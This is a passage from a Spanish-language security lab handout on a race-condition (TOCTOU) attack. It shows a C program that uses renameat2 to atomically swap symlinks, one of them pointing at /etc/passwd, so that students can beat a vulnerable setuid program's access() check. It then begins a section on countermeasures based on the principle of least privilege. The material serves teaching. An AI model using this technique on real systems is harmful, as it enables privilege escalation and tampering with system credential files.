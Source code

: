 Para resolver este problema, necesitamos que las funciones \texttt{unlink()} y \texttt{symlink()} sean atómicas. Afortunadamente, existe una llamada al sistema que nos permite lograr esto. Siendo más preciso nos permite intercambiar dos links simbólicos de forma atómica.
El siguiente programa crea dos links simbólicos \texttt{/tmp/XYZ} y \texttt{/tmp/ABC}, usando la llamada al sistema \texttt{renameat2} que los intercambia atómicamente.
Esto nos permite cambiar a donde apunta \texttt{/tmp/XYZ} evitando introducir una Race Condition.

\begin{lstlisting}
#define _GNU_SOURCE
  
#include <stdio.h>
#include <unistd.h>
int main()
{
   unsigned int flags = RENAME_EXCHANGE;

   unlink("/tmp/XYZ"); symlink("/dev/null",   "/tmp/XYZ");
   unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");

   renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
   return 0;
}
\end{lstlisting}


\paragraph{Tareas.} Por favor realice el ataque nuevamente con esta nueva estrategia, si todo es hecho de manera correcta, su ataque debería de ser exitoso.



\section{Tarea 3: Contramedidas}



\subsection{Tarea 3.A: Aplicando el Principio del Menor Privilegio}

El problema fundamental del programa vulnerable mostrado en este laboratorio es que viola el {\em  Principio del Menor Privilegio}. 
El programador sabe que quien ejecute este programa puede llegar a ser un usuario potencialmente privilegiado y es ese el sentido del chequeo que se realiza a través de la función {\tt access()} limitar sus privilegios de acceso.
Sin embargo esta óptica no es la correcta, un mejor enfoque es aplicar el {\em  Principio del Menor Privilegio} este declara que si un usuario no necesita determinado privilegio, ese privilegio no le debe de ser otorgado.

